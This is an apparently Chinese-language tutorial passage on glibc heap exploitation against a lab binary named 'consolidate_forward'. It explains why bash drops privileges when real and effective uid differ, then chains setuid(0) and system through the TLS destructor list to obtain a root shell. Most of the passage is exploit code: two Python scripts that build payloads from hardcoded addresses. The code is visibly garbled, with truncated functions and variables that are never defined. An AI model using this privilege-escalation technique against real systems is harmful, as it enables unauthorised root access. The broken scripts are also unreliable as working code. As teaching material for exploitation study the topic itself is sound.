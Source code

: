 > 为什么不能获得 root shell？

当`uid != euid`时，`/bin/bash`会丢弃权限。我们的二进制“前向合并”的真实 uid 是 1000，但是它的有效 uid 是 0。因此当`system`调用时，bash 会丢弃权限，因为真实 uid 不等于有效 uid。为了解决这个问题，我们需要在`system`之前调用`setuid(0)`，因为`_call_tls_dtors()`依次遍历`tls_dtor_list`，我们需要将`setuid`和`system`链接，以便获得 root shell。

完整的利用代码：

```
#gen_file.py
#!/usr/bin/env python
import struct

#dtor_list
setuid = 0x4e123e30
setuid_arg = 0x0
mp = 0x804b020
nxt = 0x804b430

#endianess convertion
def conv(num):
 return struct.pack("<I",num(setuid)
tst += conv(setuid_arg)
tst += conv(mp)
tst += conv(nxt)

print tst
-----------------------------------------------------------------------------------------------------------------------------------
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call

fd = 0x0804b418
bk = 0x0804b418
fd_nextsize = 0xb7fe86c0
bk_nextsize = 0x804b008
system = 0x4e0a86e0
sh = 0x80482ce

#endianess convertion
def conv(num):
 return struct.pack("<I",num(fd)
buf += conv(bk)
buf += conv(fd_nextsize)
buf += conv(bk_nextsize)
buf += conv(system)
buf += conv(sh)
buf += "A" * 996

print "Calling vulnerable program"
call(["./consolidate_forward", buf])
```
